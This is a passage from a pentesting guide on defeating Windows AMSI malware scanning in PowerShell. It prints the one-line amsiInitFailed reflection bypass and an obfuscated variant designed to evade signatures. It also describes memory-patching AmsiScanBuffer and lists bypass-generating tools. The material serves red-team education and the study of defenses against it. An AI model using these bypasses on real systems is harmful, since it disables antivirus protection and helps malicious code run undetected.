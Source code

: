Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [Matt Graeber](https://twitter.com/mattifestation) and Microsoft has developed a signature to prevent wider usage.

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

All it took was one line of powershell code to render AMSI unusable for the current powershell process. This line has of course been flagged by AMSI itself, so some modification is needed in order to use this technique.

Here is a modified AMSI bypass I took from this [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.

> [!TIP]
> Please read [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.

There are also many other techniques used to bypass AMSI with powershell, check out [**this page**](basic-powershell-for-pentesters/index.html#amsi-bypass) and [**this repo**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

This tools [**https://github.com/Flangvik/AMSI.fail**](https://github.com/Flangvik/AMSI.fail) also generates script to bypass AMSI.

**Remove the detected signature**

You can use a tool such as **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** and **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** to remove the detected AMSI signature from the memory of the current process. This tool works by scanning the memory of the current process for the AMSI signature and then overwriting it with NOP instructions, effectively removing it from memory.
